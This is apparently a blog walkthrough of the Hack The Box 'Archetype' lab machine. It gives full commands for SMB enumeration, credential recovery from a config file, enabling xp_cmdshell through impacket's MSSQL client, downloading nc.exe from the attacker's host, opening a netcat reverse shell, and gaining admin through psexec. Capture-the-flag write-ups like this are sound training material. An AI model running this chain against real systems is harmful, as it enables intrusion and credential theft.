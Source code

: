 ```yaml
---
published: true
layout: default
---
```


This one was a classic, the room revolves around a misconfiguration in mssql that allows the user to enable_xp_cmdshell which opens a path to achieve remote code execution on the machine via xp_cmdshell. And a later exploitation of an unsecured important file that led to full access on the machine.  

  <br>
  <br>
  
## Information Gathering
---
### Starting with a port scan:
First we do a fast scan in order to identify what ports are up and running:   
**nmap 10.10.10.27 -p- -Pn --min-rate 1500 -vvv -oN AllPorts.txt**
![nmap.png]({{site.baseurl}}/images/nmap.png)


And after that we run a full scan on the ports that we have identified:    
 **sudo nmap 10.10.10.27 -p 135,139,445,1433,5985,47001 -sVC -O -v -oA FoundPorts.txt**

which gives us the following output:
![nmap2.png]({{site.baseurl}}/images/nmap2.png)


We can check the running services and see that the running OS is Windows. Even more, it seems to be running a Microsoft Windows Server between version 2008 R2 and 2012 which are known to have quite a handful of exploits. Only in 2021 there have been [186 exploits](https://stack.watch/product/microsoft/windows-server-2008/#:~:text=In%202021%20there%20have%20been,had%20382%20security%20vulnerabilities%20published.&text=However%2C%20the%20average%20CVE%20base,2021%20is%20greater%20by%200.42.) with an average CVE of 7.9 out of 10.

We also see **WinRM** (Windows Remote Management) that is a Microsoft implementation of WS-Management Protocol. A standard SOAP based protocol that allows hardware and operating systems from different vendors to interoperate.
[EvilWinRm](https://github.com/Hackplayers/evil-winrm) can be used on any Microsoft Windows Servers with this feature enabled (usually at port 5985), of course only if you have credentials and permissions to use it. So we can say that it could be used in a post-exploitation hacking/pentesting phase. The purpose of this program is to provide nice and easy-to-use features for hacking. It can be used with legitimate purposes by system administrators as well but the most of its features are focused on hacking/pentesting stuff. 

<br>
<br>
<br>

## The SMB share
---
Having port 445 up hints me to try to connect to HTB Archetype using smb.

**smbclient -L 10.10.10.27**  
![smbp.png]({{site.baseurl}}/images/smbp.png)


Looks like we have found quite a few shares, even without using a password.
The most interesting share is "**backups**" which is also the only non-default share.  
Using **smbclient \\\\10.10.10.27\\backups** we can connect to this share.

We now have access to a config file **prod.dtsConfig** that  can be downloaded with: 
**get prod.dtsConfig**.
![smb2.png]({{site.baseurl}}/images/smb2.png)


The file was actually a lucky hit as it contains information about the backend database and also an username and password pair which can be used to gain a foothold on the box.

![file.png]({{site.baseurl}}/images/file.png)

<br>
<br>
<br>

## Obtaining a foothold
---
I am going to use the **impacket mssql client** from [SecureAuthCorp](https://github.com/SecureAuthCorp/impacket) in order to connect to the database.

### Installing steps
1. cd /opt  && sudo git clone https://github.com/SecureAuthCorp/impacket.git
2. cd impacket/
3. sudo pip3 install .
4. sudo python3 setup.py install

The command line goes as it follows:  
 **python3 mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth**

_Note:  "-windows-auth" flag is very important since w/o it the shell won't be able to connect to the database._

This lands us in a what appears to be a SQL shell, running a few SQL commands seem to prove my hypothesis, now as with any other tool that you are not quite sure how it's supposed to be run, typing HELP is always a good option ;).

![sql.png]({{site.baseurl}}/images/sql.png)

As it looks like we have enough privileges to enable xp_cmdshell, so we go on and type **enable_xp_cmdshell;** and after that **reconfigure;**.


Now in order to see if we can run commands i'm going to try the following syntax: **xp_cmdshell powershell whoami /priv**, and this sure enough returns the Privileges information of the current user.
![shrll1.png]({{site.baseurl}}/images/shrll1.png)  

_Note: Pay attention to [SeImpersonatePrivilege](https://steflan-security.com/linux-privilege-escalation-token-impersonation/) as this will be important later, also it helps reading about [exploitable windows tokens](https://steflan-security.com/linux-privilege-escalation-token-impersonation/) if you're interested in privilege escalation techniques_

Now as we got a foothold we can either try to get a more stable shell, or proceed with this one. But for now this is enough to grab the user flag.
![FlagUser.png]({{site.baseurl}}/images/flag1.png)

<br>
<br>
<br>

## Escalating to a reverse shell
---
Escalating to a reverse shell in this scenario is pretty much trivial and can be done in a handful of ways.
The way i'm going to do it is by uploading an [old windows netcat executable](https://github.com/Ev3nS/Useful-Pentesting-Executables) that has the **-e flag** in order to spawn a powershell.exe and send it to my local listener.

### Uploading  nc.exe
1. Spawning a http server on desktop (where the executable is located):  
![httpServer.png]({{site.baseurl}}/images/httpServer.png)
2. Getting the executable on the machine with the command line:  
**xp_cmdshell powershell "wget http://YourIP:GivenPort/nc.exe -OutFile %temp%/nc.exe"**  
![SqlCommand.png]({{site.baseurl}}/Images/SqlCommand.png)


### Getting the shell
1. Spawning a local listener on port 4444 with the command line: **nc -lvnp 4444**
2. Running the uploaded executable as it follows: **xp_cmdshell  powershell "nc.exe YourIP YourPort -e cmd.exe"**  
![SqlCommand2.png]({{site.baseurl}}/Images/SqlCommand2.png)
3. Check if we got a hit on our local listener:  
![FirstCmdShell.png]({{site.baseurl}}/Images/FirstCmdShell.png)

<br>
<br>
<br>

## Escalating to a root shell
---
As of now, we have full access to a low privileged account, so a good thing to do is to enumerate what you can do with that account on the system. Also we know from the SMB chapter that this user can Impersonate Tokens, which means that we can take ownage of a process run by a higher privileged user on the system and create a privileged shell. This can be done via [Juicy-Potato exploit](https://github.com/ohpe/juicy-potato). But for the sake of this room i will go with an easier path, as this vulnerability will be exploited in a later post.

Once you gain access to a shell in general it is good to check a few things: what privileges you have, what processes are running, what is your ip, who else is on the box, what files you have access to, any weird files/binaries/executables that shouldn't be there, are there any notes or secret files that are left unprotected? what's the bash/batch history and so on.

Fortunately, while digging for the last accessed files i've found this peculiar file lying around:  		 

![oddfile.png]({{site.baseurl}}/images/oddfile.png)

As it looks like this file was actually pretty useful as it leaks the credentials of the administrator account:  
![creds.png]({{site.baseurl}}/images/creds.png)


Now as we have the credentials we can use a [python tool for PsExec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) in order to remotely connect to the box as administrator:
![root.png]({{site.baseurl}}/Images/root.png)

All that is left to do now is to grab the root flag and we're done.    
![rootflang.png]({{site.baseurl}}/images/root2.png)

<br>
<br>
<br>

## Conclusions
---
On an ending note, i really liked this box for the fact that it promotes a good pentesting methodology, it's backbone is just a lot of enumeration and googling  and it offers a nice corelation between different services.

---
<center>
<script src="https://tryhackme.com/badge/39696"></script>
</center>
